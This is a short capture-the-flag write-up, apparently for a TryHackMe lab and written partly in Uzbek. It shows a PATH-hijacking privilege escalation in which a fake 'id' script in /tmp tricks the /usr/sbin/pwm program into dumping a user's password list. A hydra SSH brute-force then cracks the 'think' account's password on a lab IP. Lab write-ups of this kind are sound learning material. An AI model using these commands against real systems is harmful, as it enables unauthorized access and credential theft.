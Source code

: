 ```
$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Fayl tahlillariga ko'ra biz **path hijacking** qila olamiz. 
Let's do it!

```
echo $PATH
```

```
echo -e '#!/bin/bash\necho "uid=33(think) gid=33(www-data) groups=33(www-data)"' > /tmp/id
```

```
chmod 777 /tmp/id
```

```
export PATH=/tmp:$PATH
```

```
echo $PATH
```

```
/usr/sbin/pwm
```



Dastur bizga **think** deb nomlangan  foydalanuvchini parollar ro'yxatini berdi. Endi **hydra** dasturi orqali Brute-Force qilib topamiz.

```
hydra -l think -P think_wordlist ssh://10.10.102.35
```

Natija:

```
╭─mete   󰉖 ~/THM/THM-LABS/0406-2025  
╰─ ❯❯ hydra -l think -P think_wordlist ssh://10.10.102.35
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-06 16:10:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.102.35:22/
[22][ssh] host: 10.10.102.35   login: think   password: josemario.AKA(think)
```

Parol: josemario.AKA(think)
